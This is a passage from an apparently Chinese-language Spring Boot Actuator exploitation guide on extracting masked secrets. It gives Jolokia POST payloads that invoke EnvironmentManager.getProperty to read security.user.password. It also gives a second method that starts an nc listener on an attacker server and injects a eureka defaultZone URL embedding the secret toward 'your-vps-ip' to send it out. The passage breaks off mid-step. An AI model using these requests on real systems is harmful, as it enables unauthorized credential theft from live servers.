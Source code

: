 * 调用 `org.springframework.cloud.context.environment` Mbean（**需要 spring cloud 相关依赖**）

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

### [](#0x04获取被星号脱敏的密码的明文-方法二)0x04：获取被星号脱敏的密码的明文 (方法二)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### [](#利用条件-1)利用条件：

* 可以 GET 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
* 目标可以请求攻击者的服务器（请求可出外网）

#### [](#利用方法-1)利用方法：

##### [](#步骤一-找到想要获取的属性名-1)步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### [](#步骤二-使用-nc-监听-http-请求)步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```source-shell
nc -lvk 80
```

##### [](#步骤三-设置-eurekaclientserviceurldefaultzone-属性)步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip` 中的 `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；
